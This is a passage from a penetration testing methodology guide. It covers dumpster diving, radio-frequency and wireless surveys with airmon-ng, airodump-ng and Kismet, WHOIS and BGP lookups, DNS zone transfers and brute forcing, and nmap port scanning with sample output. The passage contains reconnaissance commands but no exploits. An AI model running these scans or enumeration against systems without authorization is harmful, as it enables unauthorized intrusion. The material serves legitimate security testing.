items that have been discarded by their owners, but which may be useful.
This is often times an extremely dirty process that can yield
significant results. Dumpsters are usually located on private premises
and therefore may subject the assessment team to potentially trespassing
on property not owned by the target. Though the law is enforced with
varying degrees of rigor, ensure that this is authorized as part of the
engagement. Dumpster diving per se is often legal when not specifically
prohibited by law. Rather than take the refuse from the area, it is
commonly accepted to simply photograph the obtained material and then
return it to the original dumpster.

RF / Wireless Frequency scanning
''''''''''''''''''''''''''''''''

A band is a section of the spectrum of radio communication frequencies,
in which channels are usually used or set aside for the same purpose. To
prevent interference and allow for efficient use of the radio spectrum,
similar services are allocated in bands of non-overlapping ranges of
frequencies.

As a matter of convention, bands are divided at wavelengths of
10\ :sup:`n` meters, or frequencies of 3?10\ :sup:`n` hertz. For
example, 30 MHz or 10 m divides shortwave (lower and longer) from VHF
(shorter and higher). These are the parts of the radio spectrum, and not
its frequency allocation.

Each of these bands has a basic band plan which dictates how it is to be
used and shared, to avoid interference, and to set protocol for the
compatibility of transmitters and receivers. Within the US, band plans
are allocated and controlled by the Federal Communications Commission
(FCC). The chart below illustrates the current band plans.

`Screenshot Here <:File:Penetration_Testing_Execution_12.png>`__

To avoid confusion, there are two bands that we could focus on our
efforts on. The band plans that would in of interest to an attacker are
indicated in the following chart.

+---------------------------------------+----------------------------------+--------------------------------------+-------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| align = "center"\|\ **Band name**\    | align = "center"\|\ **Abbr**\    | align = "center"\|\ **ITU band**\    | align = "center"\|\ **Frequency and wavelength in air**\    | align = "center"\|\ **Example uses**\                                                                                                                                                  |
+---------------------------------------+----------------------------------+--------------------------------------+-------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Very high frequency                   | VHF                              | 8                                    | | 30-300 MHz                                                | FM, television broadcasts and line-of-sight ground-to-aircraft and aircraft-to-aircraft communications. Land Mobile and Maritime Mobile communications, amateur radio, weather radio   |
|                                       |                                  |                                      | | 10 m - 1 m                                                |                                                                                                                                                                                        |
+---------------------------------------+----------------------------------+--------------------------------------+-------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Ultra high frequency                  | UHF                              | 9                                    | | 300-3000 MHz                                              | Television broadcasts, microwave ovens, mobile phones, wireless LAN, Bluetooth, ZigBee, GPS and two-way radios such as Land Mobile, FRS and GMRS radios, amateur radio                 |
|                                       |                                  |                                      | | 1 m - 100 mm                                              |                                                                                                                                                                                        |
+---------------------------------------+----------------------------------+--------------------------------------+-------------------------------------------------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

A Radio Frequency (RF) site survey or wireless survey, sometimes called
a wireless site survey, is the process of determining the frequencies in
use within a given environment. When conducting a RF site survey, it's
very important to identify an effective range boundary, which involves
determining the SNR at various points around a facility.

To expedite the process, all frequencies in use should be determined
prior to arrival. Particular attention should be paid to security
guards, and frequencies that the target is licensed to use. Several
resources exist to assist in acquiring this information:

+-----------------------+-----------------------------------------------------------------------------------------+------------------------------------------------------------+
| \ **Site**\           | \ **URL**\                                                                              | \ **Description**\                                         |
+-----------------------+-----------------------------------------------------------------------------------------+------------------------------------------------------------+
| Radio Reference       | | `http://www.radioreference.com/apps/db/ <http://www.radioreference.com/apps/db/>`__   | Free part of the site containing a wealth of information   |
+-----------------------+-----------------------------------------------------------------------------------------+------------------------------------------------------------+
| National Radio Data   | `http://www.nationalradiodata.com/ <http://www.nationalradiodata.com/>`__               | | FCC database search / $29 year                           |
+-----------------------+-----------------------------------------------------------------------------------------+------------------------------------------------------------+
| Percon Corp           | `http://www.perconcorp.com <http://www.perconcorp.com/>`__                              | | FCC database search / Paid site - custom rates           |
+-----------------------+-----------------------------------------------------------------------------------------+------------------------------------------------------------+

`Screenshot Here <:File:Penetration_Testing_Execution_13.png>`__

At a minimum a search engine (Google, Bing, and Yahoo!) should be
utilized to conduct the following searches:

-  "Target Company" scanner
-  "Target Company" frequency
-  "Target Company" guard frequency
-  "Target Company" MHz
-  Press releases from radio manufactures and reseller regarding the
   target
-  Press releases from guard outsourcing companies talking about
   contracts with the target company

Frequency Usage
^^^^^^^^^^^^^^^

A frequency counter is an electronic instrument that is used for
measuring the number of oscillations or pulses per second in a
repetitive electronic signal. Using a Frequency counter or spectrum
analyzer it is possible to identify the transmitting frequencies in use
around the target facility. Common frequencies include the following:

+----------------+---------------------------+
| \ **Band**\    | \ **Frequency Range**\    |
+----------------+---------------------------+
| VHF            | 150 - 174 MHz             |
+----------------+---------------------------+
| UHF            | 420 - 425 MHz             |
+----------------+---------------------------+
| UHF            | 450 - 470 MHz             |
+----------------+---------------------------+
| UHF            | 851 - 866 MHz             |
+----------------+---------------------------+
| VHF            | 43.7- 50 MHz              |
+----------------+---------------------------+
| UHF            | 902 - 928 MHz             |
+----------------+---------------------------+
| UHF            | 2400 - 2483.5 MHz         |
+----------------+---------------------------+

A spectrum analyzer can be used to visually illustrate the frequencies
in use. These are usually targeting specific ranges that are generally
more focused than a frequency counter. Below is an output from a
spectrum analyzer that can clearly illustrate the frequencies in use.
The sweep range for this analyzer is 2399-2485 MHz.

`Screenshot Here <:File:Penetration_Testing_Execution_14.png>`__

All frequency ranges in use in and around the target should be
documented.

Equipment Identification
^^^^^^^^^^^^^^^^^^^^^^^^

As part of the on-site survey, all radios and antennas in use should be
identified. Including radio make and model as well as the length and
type of antennas utilized. A few good resources are available to help
you identify radio equipment:

+-------------------+------------------------------------------------------------+--------------------------------------------------------------+
| \ **Site**\       | \ **URL**\                                                 | \ **Description**\                                           |
+-------------------+------------------------------------------------------------+--------------------------------------------------------------+
| HamRadio Outlet   | | `http://www.hamradio.com <http://www.hamradio.com/>`__   | A great source of information for amateur radios             |
+-------------------+------------------------------------------------------------+--------------------------------------------------------------+
| BatLabs           | | `http://www.batlabs.com <http://www.batlabs.com/>`__     | A great source of information for Motorola two way systems   |
+-------------------+------------------------------------------------------------+--------------------------------------------------------------+

Identifying 802.11 equipment is usually much easier to accomplish, if
not visually, then via RF emissions. For visual identification, most
vendor websites can be searched to identify the specific make and model
of the equipment in use.

+------------------------+-------------------------------------------------------------------------+
| \ **Manufacturer**\    | \ **URL**\                                                              |
+------------------------+-------------------------------------------------------------------------+
| 3com                   | `http://www.3com.com <http://www.3com.com/>`__                          |
+------------------------+-------------------------------------------------------------------------+
| Apple                  | `http://www.apple.com <http://www.apple.com/>`__                        |
+------------------------+-------------------------------------------------------------------------+
| Aruba                  | `http://www.arubanetworks.com <http://www.arubanetworks.com/>`__        |
+------------------------+-------------------------------------------------------------------------+
| Atheros                | `http://www.atheros.com/ <http://www.atheros.com/>`__                   |
+------------------------+-------------------------------------------------------------------------+
| Belkin                 | `http://www.belkin.com <http://www.belkin.com/>`__                      |
+------------------------+-------------------------------------------------------------------------+
| Bluesocket             | `http://www.bluesocket.com/ <http://www.bluesocket.com/>`__             |
+------------------------+-------------------------------------------------------------------------+
| Buffalo Technology     | `http://www.buffalotech.com <http://www.buffalotech.com/>`__            |
+------------------------+-------------------------------------------------------------------------+
| Cisco                  | `http://www.cisco.com <http://www.cisco.com/>`__                        |
+------------------------+-------------------------------------------------------------------------+
| Colubris               | `http://www.colubris.com/ <http://www.colubris.com/>`__                 |
+------------------------+-------------------------------------------------------------------------+
| D-Link                 | `http://www.dlink.com <http://www.dlink.com/>`__                        |
+------------------------+-------------------------------------------------------------------------+
| Engenius Tech          | `http://www.engeniustech.com <http://www.engeniustech.com/>`__          |
+------------------------+-------------------------------------------------------------------------+
| Enterasys              | `http://www.enterasys.com <http://www.enterasys.com/>`__                |
+------------------------+-------------------------------------------------------------------------+
| Hewlett Packard        | `http://www.hp.com <http://www.hp.com/>`__                              |
+------------------------+-------------------------------------------------------------------------+
| Juniper                | `http://www.juniper.net <http://www.juniper.net/>`__                    |
+------------------------+-------------------------------------------------------------------------+
| Marvell                | `http://www.marvell.com <http://www.marvell.com/>`__                    |
+------------------------+-------------------------------------------------------------------------+
| Motorola               | `http://www.motorola.com <http://www.motorola.com/>`__                  |
+------------------------+-------------------------------------------------------------------------+
| Netgear                | `http://www.netgear.com <http://www.netgear.com/>`__                    |
+------------------------+-------------------------------------------------------------------------+
| Ruckus Wireless        | `http://www.ruckuswireless.com/ <http://www.ruckuswireless.com/>`__     |
+------------------------+-------------------------------------------------------------------------+
| SMC                    | `http://www.smc.com <http://www.smc.com/>`__                            |
+------------------------+-------------------------------------------------------------------------+
| Trapeze                | `http://www.trapezenetworks.com/ <http://www.trapezenetworks.com/>`__   |
+------------------------+-------------------------------------------------------------------------+
| TRENDnet               | `http://www.trendnet.com <http://www.trendnet.com/>`__                  |
+------------------------+-------------------------------------------------------------------------+
| Versa Technology       | `http://www.versatek.com <http://www.versatek.com/>`__                  |
+------------------------+-------------------------------------------------------------------------+

In a passive manner, it is possible to identify at the manufacturer
based upon data collected from RF emissions.

Wireless Local Area Network (WLAN) discovery consists of enumerating the
type of WLAN that is currently deployed. This can be one of the
following: Unencrypted WLAN, WEP encrypted WLAN, WPA / WPA2 encrypted
WLAN, LEAP encrypted WLAN, or 802.1x WLAN. The tools required to
enumerate this information are highlighted as follows.

Airmon-ng
'''''''''

Airmon-ng is used to enable monitor mode on wireless interfaces. It may
also be used to go back from monitor mode to managed mode. It is
important to determine if our USB devices are properly detected. For
this we can use lsusb, to list the currently detected USB devices.

`Screenshot Here <:File:Penetration_Testing_Execution_15.png>`__

|
| As the figure illustrates, our distribution has detected not only the
  Prolific PL2303 Serial Port, where we have our USB GPS connected, but
  also the Realtek RTL8187 Wireless Adapter. Now that we have determined
  that our distribution recognizes the installed devices, we need to
  determine if the wireless adapter is already in monitor mode by
  running.

Entering the airmon-ng command without parameters will show the
interfaces status.

`Screenshot Here <:File:Penetration_Testing_Execution_16.png>`__

To use one interface simply use airmon-ng to put your card in monitor
mode by running:

::

    airmon-ng start wlan0

`Screenshot Here <:File:Penetration_Testing_Execution_17.png>`__

If there's an existing mon0, destroy it prior to issuing the previous
command:

::

    airmon-ng stop mon0

Once again, entering the airmon-ng command without parameters will show
the interfaces status.

`Screenshot Here <:File:Penetration_Testing_Execution_18.png>`__

Airodump-ng
'''''''''''

Airodump-ng is part of the Aircrack-ng is a network software suite.
Specifically, Airodump-ng is a packet sniffer that places air traffic
into Packet Capture (PCAP) files or Initialization Vectors (IVS) files
and shows information about wireless networks.

Airodump-ng is used for packet capture of raw 802.11 frames and is
particularly suitable for collecting WEP IVs (Initialization Vectors)
for later use with Aircrack-ng. If you have a GPS receiver connected to
the computer, Airodump-ng is capable of logging the coordinates of the
found APs. Before running Airodump-ng, start the Airmon-ng script to
list the detected wireless interfaces.

Usage:

::

    airodump-ng <nowiki><</nowiki>options<nowiki>></nowiki> <nowiki><</nowiki>interface<nowiki>></nowiki> <nowiki>[</nowiki>, <nowiki><</nowiki>interface<nowiki>></nowiki>...<nowiki>]</nowiki>

    Options:

    --ivs               : Save only captured IVs

    --gpsd              : Use GPSd

    --write    <nowiki><</nowiki>prefix<nowiki>></nowiki>: Dump file prefix

    -w                  : same as --write

    --beacons           : Record all beacons in dump file

    --update     <nowiki><</nowiki>secs<nowiki>></nowiki>: Display update delay in seconds

    --showack           : Prints ack/cts/rts statistics

    -h                  : Hides known stations for --showack

    -f          <nowiki><</nowiki>msecs<nowiki>></nowiki>: Time in ms between hopping channels

    --berlin     <nowiki><</nowiki>secs<nowiki>></nowiki>: Time before removing the AP/client

    from the screen when no more packets

    are received (Default: 120 seconds)

    -r           <nowiki><</nowiki>file<nowiki>></nowiki>: Read packets from that file

    -x          <nowiki><</nowiki>msecs<nowiki>></nowiki>: Active Scanning Simulation

    --output-format

    <nowiki><</nowiki>formats<nowiki>></nowiki>: Output format.  Possible values:

    pcap, ivs, csv, gps, kismet, netxml

    Short format "-o"

    The option can be specified multiple   times.  In this case, each file format specified will be output.  Only ivs or pcap can be used, not both.

Airodump-ng will display a list of detected APs and a list of connected
clients ("stations").

`Screenshot Here <:File:Penetration_Testing_Execution_19.png>`__

`Screenshot Here <:File:Penetration_Testing_Execution_20.png>`__

The first line shows the current channel, elapsed running time, current
date and optionally if a WPA/WPA2 handshake was detected.

Kismet-Newcore
''''''''''''''

Kismet-newcore is a network detector, packet sniffer, and intrusion
detection system for 802.11 wireless LANs. Kismet will work with any
wireless card which supports raw monitoring mode, and can sniff 802.11a,
802.11b, 802.11g, and 802.11n traffic.

Kismet identifies networks by passively collecting packets and detecting
standard named networks, detecting (and given time, decloaking) hidden
networks, and inferring the presence of nonbeaconing networks via data
traffic.

Kismet is composed of 3 parts:

-  '''Drones: '''Capture the wireless traffic to report it to the
   server; they have to be started manually.
-  '''Server: '''Central place that connects to the drones and accepts
   client connections. It can also capture wireless traffic.
-  '''Client: '''The GUI part that will connect to the server.

Kismet has to be configured to work properly. First, we need to
determine if it is already in monitor mode by running:

::

    airmon-ng

`Screenshot Here <:File:Penetration_Testing_Execution_21.png>`__

To use one interface simply use airmon-ng to put your card in monitor
mode by running:

::

    airmon-ng start wlan0

`Screenshot Here <:File:Penetration_Testing_Execution_22.png>`__

If there's an existing mon0, destroy it prior to issuing the previous
command:

::

    airmon-ng stop mon0

Kismet is able to use more than one interface like Airodump-ng. To use
that feature, /etc/kismet/kismet.conf has to be edited manually as
airmon-ng cannot configure more than one interface for kismet. For each
adapter, add a source line into kismet.conf.

Note:''' '''By default kismet stores its capture files in the directory
where it is started. These captures can be used with Aircrack-ng.

Typing, "kismet" in a console and hitting "Enter" will start up Kismet.

`Screenshot Here <:File:Penetration_Testing_Execution_23.png>`__

As described earlier Kismet consists of three components and the initial
screen informs us that we need to either start the Kismet server or
choose to use a server that has been started elsewhere. For our
purposes. we will click "Yes" to start the Kismet server locally.

`Screenshot Here <:File:Penetration_Testing_Execution_24.png>`__

Kismet presents us with the options to choose as part of the server
startup process.

`Screenshot Here <:File:Penetration_Testing_Execution_25.png>`__

Unless we configured a source in /etc/kismet/kismet.conf then we will
need to specify a source from where we want to capture packets.

`Screenshot Here <:File:Penetration_Testing_Execution_26.png>`__

As referenced earlier, we created a monitor sub-interface from our
wireless interface. For our purposes, we will enter "mon0", though your
interface may have a completely different name.

`Screenshot Here <:File:Penetration_Testing_Execution_27.png>`__

|
| When Kismet server and client are running properly then wireless
  networks should start to show up. We have highlighted a WEP enabled
  network. There are numerous sorting options that you can choose from.
  We will not cover all the functionality of Kismet at this point, but
  if you're not familiar with the interface you should play with it
  until you get comfortable.

inSSIDer
''''''''

If you are used to using Netstumbler you may be disappointed to hear
that it doesn't function properly with Windows Vista and 7 (64-bit).
That being said, all is not lost as there is an alternative that is
compatible with Windows XP, Vista and 7 (32 and 64-bit). It makes use of
the native Wi-Fi API and is compatible with most GPS devices (NMEA v2.3
and higher). InSSIDer has some features that make it the tool of choice
if you're using Windows. InSSIDer can track the strength of received
signal in dBi over time, filter access points, and also export Wi-Fi and
GPS data to a KML file to view in Google Earth.

`Screenshot Here <:File:Penetration_Testing_Execution_28.png>`__

External Footprinting
~~~~~~~~~~~~~~~~~~~~~

The External Footprinting phase of Intelligence Gathering involves
collecting response results from a target based upon direct interaction
from an external perspective. The goal is to gather as much information
about the target as possible.

Identifying IP Ranges
^^^^^^^^^^^^^^^^^^^^^

For external footprinting, we first need to determine which one of the
WHOIS servers contains the information we're after. Given that we should
know the TLD for the target domain, we simply have to locate the
Registrar that the target domain is registered with.

WHOIS information is based upon a tree hierarchy. ICANN (IANA) is the
authoritative registry for all of the TLDs and is a great starting point
for all manual WHOIS queries.

WHOIS lookup
''''''''''''

-  ICANN - http://www.icann.org
-  IANA - http://www.iana.com
-  NRO - http://www.nro.net
-  AFRINIC - http://www.afrinic.net
-  APNIC - http://www.apnic.net
-  ARIN - http://ws.arin.net
-  LACNIC - http://www.lacnic.net
-  RIPE - http://www.ripe.net

Once the appropriate Registrar was queried we can obtain the Registrant
information. There are numerous sites that offer WHOIS information;
however for accuracy in documentation, you need to use only the
appropriate Registrar.

-  InterNIC - http://www.internic.net/ http://www.internic.net]

BGP looking glasses
'''''''''''''''''''

It is possible to identify the Autonomous System Number (ASN) for
networks that participate in Border Gateway Protocol (BGP). Since BGP
route paths are advertised throughout the world we can find these by
using a BGP4 and BGP6 looking glass.

-  BGP4 -
   `http <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\ `:// <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\ `www <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\ `. <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\ `bgp <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\ `4. <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\ `as <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\ `/ <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\ `looking <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\ `- <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\ `glasses <http://www.google.com/url?q=http%3A%2F%2Fwww.bgp4.as%2Flooking-glasses&sa=D&sntz=1&usg=AFQjCNGJNLNRaL6xeGcya4mZ9NPyOFd8Tg>`__\
-  BPG6 - `http://lg.he.net/ <http://lg.he.net/>`__

Active Reconnaissance
^^^^^^^^^^^^^^^^^^^^^

-  Manual browsing
-  Google Hacking -
   `http://www.exploit-db.com/google-dorks <http://www.exploit-db.com/google-dorks>`__

Passive Reconnaissance
^^^^^^^^^^^^^^^^^^^^^^

-  Google Hacking -
   `http://www.exploit-db.com/google-dorks <http://www.exploit-db.com/google-dorks>`__

Active Footprinting
^^^^^^^^^^^^^^^^^^^

The active footprinting phase of Intelligence Gathering involves
gathering response results from a target based upon direct interaction.

Zone Transfers
''''''''''''''

DNS zone transfer, also known as AXFR, is a type of DNS transaction. It
is a mechanism designed to replicate the databases containing the DNS
data across a set of DNS servers. Zone transfer comes in two flavors,
full (AXFR) and incremental (IXFR). There are numerous tools available
to test the ability to perform a DNS zone transfer. Tools commonly used
to perform zone transfers are host, dig, and nmap.

Host


::

    host <nowiki><</nowiki>domain<nowiki>></nowiki> <nowiki><</nowiki>DNS server<nowiki>></nowiki>

Dig


::

    dig @server domain axfr

Reverse DNS
'''''''''''

Reverse DNS can be used to obtain valid server names in use within an
organizational. There is a caveat that it must have a PTR (reverse) DNS
record for it to resolve a name from a provided IP address. If it does
resolve then the results are returned. This is usually performed by
testing the server with various IP addresses to see if it returns any
results.

DNS Bruting
'''''''''''

After identifying all the information that is associated with the client
domain(s), it is now time to begin to query DNS. Since DNS is used to
map IP addresses to hostnames, and vice versa we will want to see if it
is insecurely configure. We will seek to use DNS to reveal additional
information about the client. One of the most serious misconfigurations
involving DNS is allowing Internet users to perform a DNS zone transfer.
There are several tools that we can use to enumerate DNS to not only
check for the ability to perform zone transfers, but to potentially
discover additional host names that are not commonly known.

Fierce2 (Linux)


For DNS enumeration, there are two tools that are utilized to provide
the desired results. The first that we will focus on is named Fierce2.
As you can probably guess, this is a modification on Fierce. Fierce2 has
lots of options, but the one that we want to focus on attempts to
perform a zone transfer. If that is not possible, then it performs DNS
queries using various server names in an effort to enumerate the host
names that have been registered.

| The command to run *fierce2* is as follows:

::

    fierce -dns <nowiki><</nowiki>client domain<nowiki>></nowiki> -prefix <nowiki><</nowiki>wordlist<nowiki>></nowiki>

''' `Screenshot Here <:File:Penetration_Testing_Execution_29.png>`__ '''

There is a common prefix (called common-tla.txt) wordlist that has been
composed to utilize as a list when enumerating any DNS entries. This can
be found at the following URL:

    https://address-unknown/

DNSEnum (Linux)


An alternative to Fierce2 for DNS enumeration is DNSEnum. As you can
probably guess, this is very similar to Fierce2. DNSEnum offers the
ability to enumerate DNS through brute forcing subdomains, performing
reverse lookups, listing domain network ranges, and performing whois
queries. It also performs Google scraping for additional names to query.

''' `Screenshot Here <:File:Penetration_Testing_Execution_30.png>`__ '''

| The command to run *dnsenum* is as follows:

::

    dnsenum -enum -f <nowiki><</nowiki>wordlist<nowiki>></nowiki> <nowiki><</nowiki>client domain<nowiki>></nowiki>

''' `Screenshot Here <:File:Penetration_Testing_Execution_31.png>`__ '''

Again, there is a common prefix wordlist that has been composed to
utilize as a list when enumerating any DNS entries. This can be found at
the following URL:

    https://address-unknown/

Dnsdict6 (Linux)


Dnsdict6, which is part of the THC IPv6 Attack Toolkit, is an IPv6 DNS
dictionary brute forcer. The options are relatively simple, but simply
specify the domain and a dictionary-file.

`Screenshot Here <:File:Penetration_Testing_Execution_32.png>`__

Port Scanning
'''''''''''''

Nmap (Windows/Linux)


Nmap ("Network Mapper") is the de facto standard for network
auditing/scanning. Nmap runs on both Linux and Windows. Nmap is
available in both command line and GUI versions. For the sake of this
document, we will only cover the command line.

::

    Nmap 5.51 ( http://nmap.org )
    Usage: nmap [Scan Type(s)] [Options] {target specification}
    TARGET SPECIFICATION:
      Can pass hostnames, IP addresses, networks, etc.
      Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
      -iL <inputfilename>: Input from list of hosts/networks
      -iR <num hosts>: Choose random targets
      --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
      --excludefile <exclude_file>: Exclude list from file
    HOST DISCOVERY:
      -sL: List Scan - simply list targets to scan
      -sn: Ping Scan - disable port scan
      -Pn: Treat all hosts as online -- skip host discovery
      -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
      -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
      -PO[protocol list]: IP Protocol Ping
      -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
      --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
      --system-dns: Use OS's DNS resolver
      --traceroute: Trace hop path to each host
    SCAN TECHNIQUES:
      -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
      -sU: UDP Scan
      -sN/sF/sX: TCP Null, FIN, and Xmas scans
      --scanflags <flags>: Customize TCP scan flags
      -sI <zombie host[:probeport]>: Idle scan
      -sY/sZ: SCTP INIT/COOKIE-ECHO scans
      -sO: IP protocol scan
      -b <FTP relay host>: FTP bounce scan
    PORT SPECIFICATION AND SCAN ORDER:
      -p <port ranges>: Only scan specified ports
        Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
      -F: Fast mode - Scan fewer ports than the default scan
      -r: Scan ports consecutively - don't randomize
      --top-ports <number>: Scan <number> most common ports
      --port-ratio <ratio>: Scan ports more common than <ratio>
    SERVICE/VERSION DETECTION:
      -sV: Probe open ports to determine service/version info
      --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
      --version-light: Limit to most likely probes (intensity 2)
      --version-all: Try every single probe (intensity 9)
      --version-trace: Show detailed version scan activity (for debugging)
    SCRIPT SCAN:
      -sC: equivalent to --script=default
      --script=<Lua scripts>: <Lua scripts> is a comma separated list of
               directories, script-files or script-categories
      --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
      --script-trace: Show all data sent and received
      --script-updatedb: Update the script database.
    OS DETECTION:
      -O: Enable OS detection
      --osscan-limit: Limit OS detection to promising targets
      --osscan-guess: Guess OS more aggressively
    TIMING AND PERFORMANCE:
      Options which take <time> are in seconds, or append 'ms' (milliseconds),
      's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
      -T<0-5>: Set timing template (higher is faster)
      --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
      --min-parallelism/max-parallelism <numprobes>: Probe parallelization
      --min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
          probe round trip time.
      --max-retries <tries>: Caps number of port scan probe retransmissions.
      --host-timeout <time>: Give up on target after this long
      --scan-delay/--max-scan-delay <time>: Adjust delay between probes
      --min-rate <number>: Send packets no slower than <number> per second
      --max-rate <number>: Send packets no faster than <number> per second
    FIREWALL/IDS EVASION AND SPOOFING:
      -f; --mtu <val>: fragment packets (optionally w/given MTU)
      -D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys
      -S <IP_Address>: Spoof source address
      -e <iface>: Use specified interface
      -g/--source-port <portnum>: Use given port number
      --data-length <num>: Append random data to sent packets
      --ip-options <options>: Send packets with specified ip options
      --ttl <val>: Set IP time-to-live field
      --spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
      --badsum: Send packets with a bogus TCP/UDP/SCTP checksum
    OUTPUT:
      -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
         and Grepable format, respectively, to the given filename.
      -oA <basename>: Output in the three major formats at once
      -v: Increase verbosity level (use -vv or more for greater effect)
      -d: Increase debugging level (use -dd or more for greater effect)
      --reason: Display the reason a port is in a particular state
      --open: Only show open (or possibly open) ports
      --packet-trace: Show all packets sent and received
      --iflist: Print host interfaces and routes (for debugging)
      --log-errors: Log errors/warnings to the normal-format output file
      --append-output: Append to rather than clobber specified output files
      --resume <filename>: Resume an aborted scan
      --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
      --webxml: Reference stylesheet from Nmap.Org for more portable XML
      --no-stylesheet: Prevent associating of XSL stylesheet w/XML output
    MISC:
      -6: Enable IPv6 scanning
      -A: Enable OS detection, version detection, script scanning, and traceroute
      --datadir <dirname>: Specify custom Nmap data file location
      --send-eth/--send-ip: Send using raw ethernet frames or IP packets
      --privileged: Assume that the user is fully privileged
      --unprivileged: Assume the user lacks raw socket privileges
      -V: Print version number
      -h: Print this help summary page.
    EXAMPLES:
      nmap -v -A scanme.nmap.org
      nmap -v -sn 192.168.0.0/16 10.0.0.0/8
      nmap -v -iR 10000 -Pn -p 80
    SEE THE MAN PAGE (http://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES

Nmap has dozens of options available. Since this section is dealing with
port scanning, we will focus on the commands required to perform this
task. It is important to note that the commands utilized depend mainly
on the time and number of hosts being scanned. The more hosts or less
time that you have to perform this tasks, the less that we will
interrogate the host. This will become evident as we continue to discuss
the options.

| Based on the IP set being assessed you would want to scan both the TCP
  and UDP ports across the range 1 to 65535. The command that will be
  utilized is as follows:

::

    nmap -A -PN -sU -sS -T2 -v -p 1-65535 <nowiki><</nowiki>client ip range<nowiki>></nowiki>/<nowiki><</nowiki>CIDR<nowiki>></nowiki> or <nowiki><</nowiki>Mask<nowiki>></nowiki> -oA NMap_FULL_<nowiki><</nowiki>client ip range<nowiki>></nowiki>

::

    nmap -A -PN -sU -sS -T2 -v -p 1-65535 client.com -oA NMap_FULL_client

    Starting Nmap 5.51 ( http://nmap.org ) at 2011-04-22 22:27 Eastern Daylight Time

    NSE: Loaded 57 scripts for scanning.
    Initiating Parallel DNS resolution of 1 host. at 22:27
    Completed Parallel DNS resolution of 1 host. at 22:27, 0.10s elapsed
    Initiating SYN Stealth Scan at 22:27
    Scanning client.com (74.117.116.73) [65535 ports]
    Discovered open port 80/tcp on 74.117.116.73

| On large IP sets, those greater than 100 IP addresses, do not specify
  a port range. The command that will be utilized is as follows:

::

    nmap -A -O -PN <nowiki><</nowiki>client ip range<nowiki>></nowiki>/<nowiki><</nowiki>CIDR<nowiki>></nowiki> or <nowiki><</nowiki>Mask<nowiki>></nowiki> -oA NMap_<nowiki><</nowiki>client ip range<nowiki>></nowiki>

::

    nmap -A -O -PN client.com -oA NMap_client

    Starting Nmap 5.51 ( http://nmap.org ) at 2011-04-22 22:37 Eastern Daylight Time

    Nmap scan report for client.com (74.117.116.73)
    Host is up (0.13s latency).
    rDNS record for 74.117.116.73: 74-117-116-73.parked.com
    Not shown: 999 filtered ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.2.3 ((CentOS))
    | http-robots.txt: 2 disallowed entries
    |_/click.php /ud.php
    |_http-title: client.com
    |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
    |_http-favicon: Parked.com domain parking
    Warning: OSScan results may be unreliable because we could not find at least 1 o
    pen and 1 closed port
    Device type: general purpose
    Running (JUST GUESSING): Linux 2.6.X (92%), OpenBSD 4.X (88%), FreeBSD 6.X (88%)

It should be noted that Nmap has limited options for IPv6. These include
TCP connect (-sT), Ping scan (-sn), List scan (-sL) and version
detection.

::

    nmap -6 -sT -P0 fe80::80a5:26f2:8db7:5d04%12

    Starting Nmap 5.51 ( http://nmap.org ) at 2011-04-22 22:42 Eastern Daylight Time

    Nmap scan report for lancelot (fe80::80a5:26f2:8db7:5d04)
    Host is up (1.0s latency).
    Not shown: 988 closed ports
